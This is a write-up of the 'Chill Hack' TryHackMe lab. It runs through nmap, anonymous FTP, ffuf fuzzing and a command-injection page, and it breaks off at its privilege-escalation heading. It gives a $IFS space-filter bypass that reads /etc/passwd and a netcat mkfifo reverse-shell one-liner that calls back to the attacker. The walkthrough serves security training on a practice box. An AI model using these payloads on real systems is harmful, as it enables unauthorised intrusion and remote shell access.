 ### Chill hack
### Difficulty = easy
### Os = linux
### [LINK](https://tryhackme.com/room/chillhack)

Hi guys ,
<br> let's root another fun box today.
<br> let's get start

<h2>Nmap scan</h2>

![nmap](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/a3a34c1a-56e5-4c8b-b7ac-b05149c8fa2b)

As you can see we have 3 open ports which port 21(FTP) Allows anonymous login.
<br> so let's start enumerate the port further by connecting to the ftp server using "anonymous" as username and hitting enter to get logged in. Then download the file on the server to your local machine

![anonymousftp](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/49303fe2-cdba-459b-b3d2-4a7476fb7ecc)
<br> so, let's check the content of the downloaded file

![note](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e36502ad-edc5-4183-9125-e2347c83f7ee)

the file contains hint to the box.

<br> let's proceed further by fuzzing for directories using ffuf
~~~
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.85.120/FUZZ
~~~

![fuzz](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e6bce9a6-9f52-4e85-975a-9f959b1a6b73)

got the directory */secret*
<br> visiting the directory we can tell that the box is about command injection

![http_command_inj_page](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e6568236-8929-4d80-ae25-fff0fd4ab7ec)
<br> so, you can confirm it by executing the **id** command

proceeding further we noticed that our commands ain't working due to some kinda filters
 
 ![filter](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/01e4e271-345e-4135-b128-838ec0d753d5)

i found out that spaces get filtered and thereby triggering the alert

<br> so, let's bypass the filter using the "internal field separator" $IFS
```
cat$IFS/etc/passwd should work
```

![filer_bypass](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/8ab2e700-3c52-440b-9e9a-aa732477c14c)

dope! it has been bypassed. which means we have to replace the spaces with $IFS 

<br> let's pop our sweet reverse shell by starting netcat listener and executing this commands
```
rm$IFS/tmp/f;mkfifo$IFS/tmp/f;cat$IFS/tmp/f|/bin/sh -i 2>&1|nc 10.9.3.145 1337 >/tmp/f
```
![rev-shell](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/760a62df-4925-44ae-b577-07654cb8fa56)

<br> cool we have a shell xD
<br> so, stabilize the shell.

<h2>Privilege escalation</h2>

